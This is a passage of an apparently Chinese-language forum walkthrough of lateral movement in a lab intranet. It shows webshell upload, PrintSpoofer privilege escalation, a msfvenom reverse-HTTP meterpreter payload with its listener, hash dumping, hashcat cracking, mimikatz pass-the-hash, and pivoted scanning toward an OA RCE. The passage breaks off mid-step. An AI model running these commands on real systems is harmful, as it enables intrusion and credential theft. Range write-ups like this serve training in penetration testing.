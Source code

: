 我们使用密码登入后台，将一句话打包为zip并在站点模板里进行上传，并使用菜刀连接：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_ZZE72KMG6W7R4TW.png)  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_G4J7EAYSHQF7MSH.png)  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_AQX5NT4ZQT3JQG9.png)



可见SeImpersonatePrivilege是已启用的，当我们具有了SeAssignPrimaryToken或SeImpersonate特权，那么就意味着具有了SYSTEM的权限。我们可以通过上述这两个特权，在其他用户的上下文中运行代码，甚至创建新的进程。拥有SeImpersonatePrivilege特权，就可以调用CreateProcessWithToken()；拥有SeAssignPrimaryTokenPrivilege特权，就可以调用CreateProcessAsUser()。而PrintSpoofer就是这样的一款开源工具：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_VNGFCECZF6SUCPM.png)  
同时我们也可以通过net start查看当前计算机开启了哪些服务，根据服务名进行判断是否对后续提权有帮助的。

## [](https://bbs.pediy.com/thread-268289.htm)7.3 内网渗透

我们使用msf生成相关后门，利用PrintSpoofer执行后门：  
msfvenom -p windows/meterpreter/reverse_http lhost=192.168.202.180 lport=22222
-f exe -o h4.exe //生成exe  
use exploit/multi/handler //建立监听  
set payload windows/meterpreter/reverse_http  
set lport 22222  
set lhost 192.168.202.180  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_ZEMUNHPACV6PFKM.png)  
因为目标机器是windows server 2016获取不到明文密码，我们使用msf中自带模块run
post/windows/gather/smart_hashdump，把hash dump出来  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_RZ9GVET3N2T7X6Y.png)  
当我们拿到hash后，可以使用hashcat进行hash值得爆破，  
hashcat -a 0 -m 1000 hash.txt rockyou.txt --force  
-a 0 爆破模式为字典模式  
-m 是指定哈希类型  
hash.txt 是 ntml  
rockyou.txt 是字典  
也可以使用Hash传递登录RDP远程桌面，  
Sekurlsa::pth /user:Administrator /domain: 192.168.202.183
/ntlm:fac5d668099409cb6fa223a32ea493b6 “/run:mstsc.exe /restrictedadmin”  
又可以使用hash建立ipc连接。



查看当前主机存在哪些网段run get_local_subnets:  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_THA4QSWCV8GQDFW.png)  
先进行内网中得主机发现，使用msf自带得arp：run arp_scanner -r 10.10.1.0/24  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_RXA64W6P6KGQMST.png)  
Msf添加路由，run autoroute -s 10.10.1.0/24  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_TVHBTMTHFX4T4SU.png)  
对所发现的IP进行端口扫描：proxychains nmap -sC -A 10.10.1.130 -p
80,53,1433,49154,6588,3389,135,21,51464,999，可见只有80端口是开放得：  
![](./\[原创\]内网横移技巧及靶场实践-WEB安全-看雪论坛-
安全社区_安全招聘_bbs.pediy.com_files/718877_AVD38HKHPUF92DH.png)  
通过访问80端口得知是通达oa尝试使用其RCE漏洞，先用蚁剑生成php小马再利用RCE exp脚本进行攻击：  